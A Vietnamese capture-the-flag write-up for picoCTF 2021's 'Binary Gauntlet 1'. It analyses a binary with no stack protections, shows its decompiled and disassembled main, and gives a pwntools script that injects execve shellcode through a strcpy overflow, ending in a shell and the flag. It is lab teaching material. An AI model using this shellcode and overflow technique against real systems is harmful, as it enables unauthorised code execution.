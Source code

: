 # Binary Gauntlet 1
[Tham khảo binary gauntlet 0](../Binary-Gauntlet-0)
## Kiểm tra file
### file
```bash
gauntlet: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=2a7f79b758fdc250528e5bbc3da169fbf74e4ad3, not stripped
```
### checksec
```bash
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      No PIE (0x400000)
RWX:      Has RWX segments
```
Cũng như gauntlet 0, không khác gì lắm
## Decompile & Disassemble
### Decompile main
```c
undefined8 main(void)
{
  char local_78 [104];
  char *local_10;
  
  local_10 = (char *)malloc(1000);
  printf("%p\n",local_78);
  fflush(stdout);
  fgets(local_10,1000,stdin);
  local_10[999] = '\0';
  printf(local_10);
  fflush(stdout);
  fgets(local_10,1000,stdin);
  local_10[999] = '\0';
  strcpy(local_78,local_10);
  return 0;
}
```
Lần này chương trình không có phương thức để đọc flag. Vì vậy chúng ta sẽ dùng shellcode để mở shell và đọc flag. Chương trình cung cấp cho ta địa chỉ của biến local_78, đây sẽ là nơi ta chèn shellcode vào và return về
```c
printf("%p\n",local_78);
```
### Disassemble main
```asm
0x0000000000400687 <+0>:	push   rbp
0x0000000000400688 <+1>:	mov    rbp,rsp
0x000000000040068b <+4>:	add    rsp,0xffffffffffffff80
0x000000000040068f <+8>:	mov    DWORD PTR [rbp-0x74],edi
0x0000000000400692 <+11>:	mov    QWORD PTR [rbp-0x80],rsi
0x0000000000400696 <+15>:	mov    edi,0x3e8
0x000000000040069b <+20>:	call   0x400580 <malloc@plt>
0x00000000004006a0 <+25>:	mov    QWORD PTR [rbp-0x8],rax
0x00000000004006a4 <+29>:	lea    rax,[rbp-0x70]
0x00000000004006a8 <+33>:	mov    rsi,rax
0x00000000004006ab <+36>:	lea    rdi,[rip+0x122]        # 0x4007d4
0x00000000004006b2 <+43>:	mov    eax,0x0
0x00000000004006b7 <+48>:	call   0x400560 <printf@plt>
0x00000000004006bc <+53>:	mov    rax,QWORD PTR [rip+0x20098d]        # 0x601050 <stdout@@GLIBC_2.2.5>
0x00000000004006c3 <+60>:	mov    rdi,rax
0x00000000004006c6 <+63>:	call   0x400590 <fflush@plt>
0x00000000004006cb <+68>:	mov    rdx,QWORD PTR [rip+0x20098e]        # 0x601060 <stdin@@GLIBC_2.2.5>
0x00000000004006d2 <+75>:	mov    rax,QWORD PTR [rbp-0x8]
0x00000000004006d6 <+79>:	mov    esi,0x3e8
0x00000000004006db <+84>:	mov    rdi,rax
0x00000000004006de <+87>:	call   0x400570 <fgets@plt>
0x00000000004006e3 <+92>:	mov    rax,QWORD PTR [rbp-0x8]
0x00000000004006e7 <+96>:	add    rax,0x3e7
0x00000000004006ed <+102>:	mov    BYTE PTR [rax],0x0
0x00000000004006f0 <+105>:	mov    rax,QWORD PTR [rbp-0x8]
0x00000000004006f4 <+109>:	mov    rdi,rax
0x00000000004006f7 <+112>:	mov    eax,0x0
0x00000000004006fc <+117>:	call   0x400560 <printf@plt>
0x0000000000400701 <+122>:	mov    rax,QWORD PTR [rip+0x200948]        # 0x601050 <stdout@@GLIBC_2.2.5>
0x0000000000400708 <+129>:	mov    rdi,rax
0x000000000040070b <+132>:	call   0x400590 <fflush@plt>
0x0000000000400710 <+137>:	mov    rdx,QWORD PTR [rip+0x200949]        # 0x601060 <stdin@@GLIBC_2.2.5>
0x0000000000400717 <+144>:	mov    rax,QWORD PTR [rbp-0x8]
0x000000000040071b <+148>:	mov    esi,0x3e8
0x0000000000400720 <+153>:	mov    rdi,rax
0x0000000000400723 <+156>:	call   0x400570 <fgets@plt>
0x0000000000400728 <+161>:	mov    rax,QWORD PTR [rbp-0x8]
0x000000000040072c <+165>:	add    rax,0x3e7
0x0000000000400732 <+171>:	mov    BYTE PTR [rax],0x0
0x0000000000400735 <+174>:	mov    rdx,QWORD PTR [rbp-0x8]
0x0000000000400739 <+178>:	lea    rax,[rbp-0x70]
0x000000000040073d <+182>:	mov    rsi,rdx
0x0000000000400740 <+185>:	mov    rdi,rax
0x0000000000400743 <+188>:	call   0x400550 <strcpy@plt>
0x0000000000400748 <+193>:	mov    eax,0x0
0x000000000040074d <+198>:	leave  
0x000000000040074e <+199>:	ret  
```
Biến local_78 nằm tại [rbp - 0x70]. Chúng ta cần 0x80 bytes để ghi đè return address. Payload của ta sẽ có dạng "shellcode + padding * (0x78 - độ dài shellcode) + địa chỉ biến local_78"
## Exploit
```python
from pwn import *

context.binary = ELF("./gauntlet")

run = remote("mercury.picoctf.net", 13644)
addr = run.recvline()
run.sendline("Pwned")

addr = int(addr, 16)

payload = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
payload += b'A' * (0x78 - len(payload))
payload += p64(addr)

run.sendline(payload)

run.interactive()
```
## Output
```bash
[*] '/home/revirven/Desktop/GitHub/CTF-Writeups/PicoCTF-2021/Binary-Exploitation/Binary-Gauntlet-1/gauntlet'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to mercury.picoctf.net on port 13644: Done
[*] Switching to interactive mode
Pwned
$ cat flag.txt
66fa43e73fc405235d4d2aa9da1b257f
```
